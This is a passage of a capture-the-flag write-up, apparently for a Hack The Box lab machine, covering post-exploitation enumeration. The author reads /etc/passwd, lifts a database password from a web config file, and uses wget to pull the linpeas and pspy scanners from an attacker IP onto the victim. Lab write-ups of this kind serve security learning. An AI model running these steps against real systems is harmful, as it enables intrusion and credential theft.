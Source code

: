 ```fc895d4eddc2fc12f995e18c865cf273 / Soleil101```
- Check ```/etc/passwd```

![](./IMG/29.png)
- Check ```/etc/passwd``` with ```/bin/bash``` permission
- Here are 3 user with bash permission, root/james_mason(running now), dan_smith

![](./IMG/30.png)
- Since I have confirm there is no user flag in james_mason's directory, so maybe it needs to change to other user.

![](./IMG/31.png)

> Now, there are 2 ideas: 
    1. Privilege Escalation to root directly
    2. Get dan_smith permission first, then Privilege Escalation to root.
### Try to find foothold to Privilege Escalation 

- Check ```/var``` content, and find DB setting in ```/var/www/checkout.shared.htb/config```
- DB USER / PASSWORD : ```checkout  / a54$K_M4?DdT^HUk ```

![](./IMG/32.png)

##### Victim Network Stats
- [**Port 3306**]Check network status, Maria DB might listen on port 3306.
- [**Port 6479**]Here are another interesting port is port 6479

![](./IMG/33.png)
- After searching, port 6379 is Redis will default run on.

![](./IMG/34.png)
- Besides that, I can upload some scan tools to james home directory (```/home/james/mason```)
    1. linpeas.sh
        - Upload linpeas and change the file permission

        ```
        # wget 10.10.14.33:9999/linpeas.sh
        # chmod 777 linpeas.sh
        ```
        
        ![](./IMG/35.png)

        ![](./IMG/36.png)
        
        ![](./IMG/37.png)

    2. pspy64s
        - Upload linpeas and change the file permission
        ```
        # wget 10.10.14.33:9999/pspy64s
        # chmod 777 pspy64s
        ```
        ![](./IMG/38.png)
        
        ![](./IMG/39.png)

        ![](./IMG/40.png)
        
        ![](./IMG/41.png)
        
        ![](./IMG/42.png)
        
        ![](./IMG/43.png)
        
```